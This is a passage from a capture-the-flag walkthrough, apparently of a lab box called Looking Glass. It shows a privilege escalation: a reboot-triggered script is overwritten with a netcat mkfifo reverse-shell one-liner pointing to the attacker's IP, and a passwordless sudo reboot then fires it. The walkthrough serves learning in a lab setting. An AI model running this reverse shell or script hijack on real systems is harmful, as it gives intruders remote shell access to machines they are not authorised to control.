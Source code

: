 The bottom line shows us when the server is rebooted the twasBrilling.sh script is run as user tweedledum. We know from earlier that we can edit the script, so now we just need to find a way to reboot the box.

Next thing to check is what sudo permissions we have:

```text
jabberwock@looking-glass:~$ sudo -l
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```

Excellent. We can reboot the box without a password as our initial user jabberwock.

Just like everyone else I use [PentestMonkeys](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) cheatsheets. Let's replace the contents of twasBrilling.sh with one from his site:

```text
jabberwock@looking-glass:~$ cp twasBrillig.sh twasBrillig.sh.bak
jabberwock@looking-glass:~$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.17.195 1234 >/tmp/f" > twasBrillig.sh
```

Now we can start a netcat listener on our Kali machine:

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
```

Then reboot the box and hopefully get a connection when it comes back up:

```text
jabberwock@looking-glass:~$ sudo /sbin/reboot
Connection to 10.10.156.69 closed by remote host.
Connection to 10.10.156.69 closed.
root@kali:~/thm/looking#
```

After a short while we see the box connects to us:

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.9.17.195] from (UNKNOWN) [10.10.156.69] 50348
/bin/sh: 0: can't access tty; job control turned off
$
```

## Second User

Let's see who we are:
